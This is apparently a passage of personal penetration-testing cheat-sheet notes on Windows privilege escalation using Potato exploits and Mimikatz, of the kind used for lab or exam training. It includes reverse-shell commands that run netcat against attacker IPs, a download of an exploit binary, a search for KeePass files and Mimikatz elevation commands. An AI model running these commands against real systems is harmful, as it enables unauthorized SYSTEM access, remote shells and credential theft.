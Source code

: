 ```</p>
<li>If we can coerce a a privileged process into connecting to a controlled named pipe, we can capture the authentication and use <code>SeImpersonatePrivilege</code> to impersonate the user account and perform operations in their security context</li>
<li><em>Sigma Potato (PrintSpoofer)</em><ul>
<li>Coerces NT AUTHORITY/SYSTEM into a named pipe</li>
<li>Must be downloaded somehow</li>
<li>Can be used when we have a user with <code>SeImpersonatePrivilege</code></li>
<li><code>wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe</code></li>
<li><code>.\PrintSpoofer64.exe -i -c powershell.exe</code></li>
</ul>
</li>
</ul>
</li>
<li>General Potato information:<ul>
<li><a href="https://jlajara.gitlab.io/Potatoes_Windows_Privesc">https://jlajara.gitlab.io/Potatoes_Windows_Privesc</a></li>
</ul>
</li>
<li>SweetPotato<ul>
<li><a href="https://github.com/CCob/SweetPotato">https://github.com/CCob/SweetPotato</a><ul>
<li>Precompiled: <a href="https://github.com/uknowsec/SweetPotato">https://github.com/uknowsec/SweetPotato</a></li>
</ul>
</li>
<li>Get netcat as well (`/usr/share/windows-resources/binaries/)</li>
<li><code>.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a &quot;10.10.10.10 1234 -e cmd&quot;</code> works pretty well</li>
</ul>
</li>
<li>JuicyPotato<ul>
<li><a href="https://github.com/ohpe/juicy-potato/releases/tag/v0.1">https://github.com/ohpe/juicy-potato/releases/tag/v0.1</a></li>
<li><code>C:\Users\Public\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd.exe -a &quot;/c C:\Users\Public\nc.exe 10.10.14.235 4444 -e cmd.exe&quot; -t *</code></li>
</ul>
</li>
<li>GodPotato<ul>
<li>Can use for a reverse shell <code>GodPotato.exe -cmd &quot;cmd /c reverse.exe&quot;</code><ul>
<li><code>GodPotato.exe -cmd &quot;powershell -e ....&quot;</code></li>
</ul>
</li>
<li>Can also use it to create a new administrative user, then rdp/winrm in</li>
</ul>
</li>
</ul>
</li>
</ul>
<h3 id="what-to-do-after-escalating-privileges-">What to do after escalating privileges?</h3>
<ul>
<li>Credentials Credentials Credentials<ul>
<li>Run WinPEAS again</li>
<li><code>Get-ChildItem -Recurse -Filter *.kdbx</code></li>
</ul>
</li>
<li><a href="https://github.com/gentilkiwi/mimikatz">Mimikatz</a> can extract password hashes from memory as a basic user<ul>
<li>Prebuilt version <a href="https://github.com/gentilkiwi/mimikatz/releases">here</a></li>
<li>Can dump plaintext passwords straight as an Administrator</li>
<li>Run with <code>.\mimikatz.exe</code></li>
<li><code>privilege::debug</code> gives us the <code>SeDebugPrivilege</code> to run below commands</li>
<li><code>token::elevate</code> to elevate to SYSTEM user</li>
```